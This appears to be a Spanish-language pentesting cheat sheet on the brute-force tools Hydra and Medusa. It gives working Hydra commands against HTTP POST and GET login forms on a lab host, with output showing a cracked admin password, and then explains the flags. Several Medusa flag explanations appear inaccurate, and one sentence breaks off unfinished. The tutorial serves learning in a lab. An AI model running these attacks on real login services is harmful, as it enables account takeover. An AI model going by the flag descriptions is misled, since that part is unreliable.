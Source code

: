 # TOOLS FORCE BRUTE ATTACK
## HYDRA
___
**Hydra.-** es una herramienta de prueba de penetración (pentesting) que se utiliza para realizar ataques de fuerza bruta a sistemas de autenticación. Es una herramienta de línea de comandos que permite automatizar el proceso de adivinación de contraseñas para varios protocolos de autenticación, incluyendo FTP, SSH, Telnet, HTTP, HTTPS, entre otros.

### POST-FORM
#### Ejecución
``` java
hydra 192.168.200.152 http-post-form "/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" -L user.txt -P password.txt   
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-02-15 11:03:17
[DATA] max 16 tasks per 1 server, overall 16 tasks, 78 login tries (l:3/p:26), ~5 tries per task
[DATA] attacking http-post-form://192.168.200.152:80/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed
[80][http-post-form] host: 192.168.200.152   login: admin   password: password
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-02-15 11:03:20
```
En la línea de comando de Hydra, los flags significan lo siguiente:

>* **192.168.200.152.-** Indica la dirección IP del servidor que se va a atacar.
>* **http-post-form.-** Indica el protocolo que se va a utilizar para la comunicación con el servidor. En este caso, se utilizará el protocolo HTTP y se enviarán los datos de inicio de sesión mediante un formulario HTTP POST.
>* **"/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed":** Esta cadena de caracteres representa la URL y los datos del formulario que se utilizarán en el ataque. Se especifica el archivo login.php y se definen los campos del formulario de inicio de sesión, incluyendo el nombre de usuario, la contraseña y el botón de inicio de sesión. "Login failed" indica el mensaje que se mostrará en caso de que el intento de inicio de sesión falle.
>* **-L user.txt:** Especifica el archivo que contiene una lista de nombres de usuario que se utilizarán en el ataque.
>* **-P password.txt:** Especifica el archivo que contiene una lista de contraseñas que se utilizarán en el ataque.

### GET_FORM
#### Ejecución

```java
hydra 192.168.200.152 http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie\:PHPSESSID=o39naa5urd4qrgkfo5n6fv4jf2; security=low:F=Username and/or password incorrect" -L user.txt -P /usr/share/wordlists/rockyou.txt   
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-02-15 12:57:21
[INFORMATION] escape sequence \: detected in module option, no parameter verification is performed.
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 43033197 login tries (l:3/p:14344399), ~2689575 tries per task
[DATA] attacking http-get-form://192.168.200.152:80/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie\:PHPSESSID=o39naa5urd4qrgkfo5n6fv4jf2; security=low:F=Username and/or password incorrect
[80][http-get-form] host: 192.168.200.152   login: admin   password: password
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

Este comando usa la herramienta Hydra para realizar un ataque de fuerza bruta en un formulario de inicio de sesión en una página web alojada en la dirección IP 192.168.200.152.

>* **"http-get-form".-** especifica que se debe usar el método HTTP GET para enviar el formulario de inicio de sesión.
>* **"/vulnerabilities/brute/".-** es la URL del formulario de inicio de sesión.
>* **":username=^USER^&password=^PASS^&Login=Login".-** son los campos del formulario de inicio de sesión que se van a atacar. Los valores de usuario y contraseña se reemplazarán con los valores del archivo de usuario y de la lista de contraseñas proporcionados.
>* **"H=Cookie:PHPSESSID=o39naa5urd4qrgkfo5n6fv4jf2;.-** security=low" son las cookies que se van a enviar junto con la solicitud de inicio de sesión. En este caso, se envía una cookie PHPSESSID con un valor específico y se establece el nivel de seguridad en "bajo".
>* **"F=Username and/or password incorrect".-** es el mensaje que se muestra en la página web cuando se ingresan credenciales incorrectas.
>* **"-L user.txt".-** especifica la ruta del archivo que contiene los nombres de usuario que se utilizarán para el ataque de fuerza bruta.
>* **"-P /usr/share/wordlists/rockyou.txt".-** especifica la ruta de la lista de contraseñas que se utilizará para el ataque de fuerza bruta. En este caso, se utiliza la popular lista de 

## MEDUSA
___
**Medusa.-** es una herramienta de prueba de penetración que se utiliza para realizar ataques de fuerza bruta contra sistemas y aplicaciones. Su función principal es intentar adivinar credenciales de inicio de sesión, como nombres de usuario y contraseñas, mediante la repetición de pruebas con diferentes combinaciones de credenciales.

Medusa puede trabajar con varios protocolos, incluyendo FTP, SSH, Telnet, SMTP, HTTP, HTTPS, SMB, y muchos otros. La herramienta puede utilizar varios métodos de autenticación, como diccionarios de contraseñas, ataque por fuerza bruta y ataques de diccionario personalizado. Además, Medusa es compatible con varias plataformas y sistemas operativos, incluyendo Linux, Windows y macOS.

Es importante tener en cuenta que Medusa debe ser utilizado únicamente con fines éticos y legales. Es necesario obtener la autorización previa del propietario del sistema o aplicación que se va a probar antes de utilizar cualquier herramienta de prueba de penetración.
>* -h: Este flag indica el host o dirección IP del sistema o aplicación que se va a atacar.
>* -U: Este flag especifica el archivo que contiene una lista de nombres de usuario que se probarán en el ataque.
>* -P: Este flag especifica el archivo que contiene una lista de contraseñas que se probarán en el ataque.
>* -M: Este flag indica el protocolo que se utilizará para comunicarse con el sistema o aplicación que se va a atacar, como http, ftp, ssh, telnet, etc.
>* -m: Este flag indica el modo de autenticación que se utilizará para el ataque, como diccionario, fuerza bruta, etc.
>* -T: Este flag indica el número máximo de hilos (threads) que se utilizarán en el ataque.
>* -f: Este flag indica que se deben utilizar las contraseñas de los usuarios proporcionados en el archivo de nombres de usuario.
>* -e: Este flag indica que se deben utilizar contraseñas vacías en el ataque.
>* -B: Este flag indica que se deben utilizar técnicas de ataque especiales, como ataque de diccionario personalizado, fuerza bruta por intervalo de tiempo, etc.
>* -C: Este flag indica que se deben utilizar diferentes códigos de respuesta del servidor para identificar si una prueba de credenciales ha sido exitosa o no.
